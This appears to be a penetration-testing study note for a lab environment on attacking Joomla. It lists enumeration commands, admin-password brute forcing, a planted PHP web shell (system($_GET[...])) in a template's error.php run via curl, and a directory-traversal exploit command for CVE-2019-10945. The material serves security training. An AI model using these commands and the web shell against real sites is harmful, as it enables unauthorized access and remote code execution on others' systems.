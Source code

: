 ### Footprinting + Enumeration
[droopescan](https://github.com/droope/droopescan) and [JoomlaScan](https://github.com/drego85/JoomlaScan) 
```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```
Is this Joomla?
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
curl -s http://dev.inlanefreight.local/robots.txt
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```
Less common
```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml.
```
### Exploitation
##### Login bruteforcing
The default administrator account on Joomla installs is `admin`, but the password is set at install time, so the only way we can hope to get into the admin back-end is if the account is set with a very weak/common password and we can get in with some guesswork or light brute-forcing. We can use [Joomla-brute](https://github.com/ajnik/joomla-bruteforce) for this.
```bash
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
##### RCE
> [!NOTE] Note
> If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.

Visit `/administrator` -> `Templates` -> `Configuration`

Choose an unused template and add PHP one liner to an uncommon page (`error.php`)
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```
**ITS BEST PRACTICE TO USE NON-GUESSABLE PARAMETERS FOR OUR RCE PAYLOADS TO AVOID ANY DRIVEBY ATTACKERS. we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.**
```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

##### Known Vulnerabilities
Version `3.9.4` is vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) in which an exploit can be found [here](https://github.com/dpgg101/CVE-2019-10945) 
This would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds
```bash
python3 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```